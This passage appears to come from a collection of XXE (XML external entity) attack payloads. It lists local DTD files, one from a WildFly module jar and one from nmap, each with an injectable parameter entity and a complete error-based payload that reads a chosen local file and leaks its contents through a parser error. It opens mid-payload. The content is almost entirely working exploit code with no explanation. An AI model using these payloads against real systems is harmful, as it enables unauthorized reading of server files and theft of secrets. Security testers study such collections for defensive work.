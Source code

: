 ```

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/opt/jboss/wildfly/modules/system/layers/base/org/apache/xml-resolver/main/xml-resolver-1.2.jar!/org/apache/xml/resolver/etc/catalog.dtd`

**Injectable entity:** `%publicIdentifier`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///opt/jboss/wildfly/modules/system/layers/base/org/apache/xml-resolver/main/xml-resolver-1.2.jar!/org/apache/xml/resolver/etc/catalog.dtd">

    <!ENTITY % publicIdentifier '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/nmap/nmap.dtd`

**Injectable entity:** `%attr_numeric`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/nmap/nmap.dtd">

    <!ENTITY % attr_numeric '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
